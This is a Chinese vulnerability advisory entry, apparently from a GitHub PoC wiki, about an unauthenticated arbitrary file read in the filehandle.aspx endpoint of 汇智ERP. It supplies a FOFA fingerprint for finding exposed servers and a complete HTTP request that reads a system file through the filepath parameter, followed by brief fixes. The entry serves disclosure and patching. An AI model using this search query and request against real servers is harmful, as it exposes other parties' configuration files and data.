

# 汇智ERP filehandle.aspx 任意文件读取漏洞

# 漏洞描述

汇智ERP filehandle.aspx 接口处任意文件读取漏洞，未经身份验证的攻击者可以利用此漏洞读取系统内部配置文件，造成信息泄露。

影响范围

汇智ERP

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：icon_hash="-642591392"

POC/EXP：

GET /nssys/common/filehandle.aspx?filepath=C%3a%2fwindows%2fwin%2eini HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
